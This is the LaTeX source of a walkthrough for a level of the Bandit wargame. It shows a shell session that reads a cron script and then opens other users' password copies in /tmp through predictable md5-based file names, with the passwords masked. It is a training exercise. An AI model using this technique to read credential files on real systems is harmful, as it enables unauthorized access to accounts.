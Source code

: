 \documentclass[11pt]{article}
\makeatletter
\renewcommand{\paragraph}{%
  \@startsection{paragraph}{4}%
  {\z@}{2.0ex \@plus 1ex \@minus .2ex}{-1em}%
  {\normalfont\normalsize\bfseries}%
}
\makeatother
\begin{document}
\paragraph{Solution}
To solve this, we cd to the cronjob directory and have a look at what's running. We can see there's a file called `cronjob\_bandit23', so we cat it to view its contents. We can see it's running a script at `/usr/bin/cronjob\_bandit23.sh', if we cat the script, we can see that there's some password copying shenanigans going on. If we follow up on this and cat the file the script copies to, we can observe that it prints the password for level 22, our current level. If we modify the whoami component to pretend to be bandit23, it will output the password for bandit23.\\ 
Humourously we can also use this to get to level 24, but I think this is unintentional. ;)
\begin{lstlisting}
	bandit22@melinda:~$ cd /etc/cron.d
	bandit22@melinda:/etc/cron.d$ l
	behemoth4_cleanup  cronjob_bandit23       leviathan5_cleanup    natas-session-toucher  natas25_cleanup~  php5        semtex0-ppc  vortex0
	cron-apt           cronjob_bandit24       manpage3_resetpw_job  natas-stats            natas26_cleanup   semtex0-32  semtex5      vortex20
	cronjob_bandit22   cronjob_bandit24_root  melinda-stats         natas25_cleanup        natas27_cleanup   semtex0-64  sysstat
	bandit22@melinda:/etc/cron.d$ cat cronjob_bandit23
	* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
	bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
	#!/bin/bash

	myname=$(whoami)
	mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

	echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

	cat /etc/bandit_pass/$myname > /tmp/$mytarget
	bandit22@melinda:/etc/cron.d$ cat /tmp/`echo I am user $(whoami) | md5sum | cut -d ' ' -f 1`
	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
	bandit22@melinda:/etc/cron.d$ cat /tmp/`echo I am user bandit23 | md5sum | cut -d ' ' -f 1`
	YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
	bandit22@melinda:/etc/cron.d$ cat /tmp/`echo I am user bandit24 | md5sum | cut -d ' ' -f 1`
	ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
\end{lstlisting}
\textbf{Note:} Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
\newpage
\end{document}
